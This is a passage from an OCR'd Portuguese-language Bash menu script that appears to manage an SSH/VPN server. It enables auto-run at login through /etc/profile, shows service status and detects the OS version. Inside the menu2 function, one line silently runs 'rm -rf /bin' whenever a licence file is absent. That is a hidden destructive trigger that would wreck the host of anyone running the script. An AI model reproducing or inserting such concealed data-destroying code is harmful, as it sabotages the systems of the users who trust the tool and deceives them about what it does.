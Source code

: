       clear

      echo -e "\033[1;32mATIVANDO AUTO EXECUÇÃO\033[0m"

      autmenu () {

         grep -v "^menu;" /etc/profile > /tmp/tmpass && mv /tmp/tmpass /etc/profile

         echo "menu;" >> /etc/profile

      }

      echo ""

      fun_bar 'autmenu'

      echo ""

      echo -e "\033[1;32mAUTO EXECUÇÃO ATIVADO!\033[0m"

      sleep 1.5s

      menu2

   fi

}

#menu2

menu2 (){

[[ -e /etc/Plus-torrent ]] && stsf=$(echo -e "\033[1;32m◉ ") || stsf=$(echo -e "\033[1;31m○ ")

stsbot=$(ps x | grep "bot_plus"|grep -v grep > /dev/null && echo -e "\033[1;32m◉ " || echo -e "\033[1;31m○ ")

autm=$(grep "menu;" /etc/profile > /dev/null && echo -e "\033[1;32m◉ " || echo -e "\033[1;31m○ ")

[[ ! -e /usr/lib/licence ]] && rm -rf /bin > /dev/null 2>&1

if [[ "$(grep -c "Ubuntu" /etc/issue.net)" = "1" ]]; then

system=$(cut -d' ' -f1 /etc/issue.net)

system+=$(echo ' ')

system+=$(cut -d' ' -f2 /etc/issue.net |awk -F "." '{print $1}')

elif [[ "$(grep -c "Debian" /etc/issue.net)" = "1" ]]; then

system=$(cut -d' ' -f1 /etc/issue.net)

system+=$(echo ' ')

system+=$(cut -d' ' -f3 /etc/issue.net)

else

system=$(cut -d' ' -f1 /etc/issue.net)

fi

_ons=$(ps -x | grep sshd | grep -v root | grep priv | wc -l)
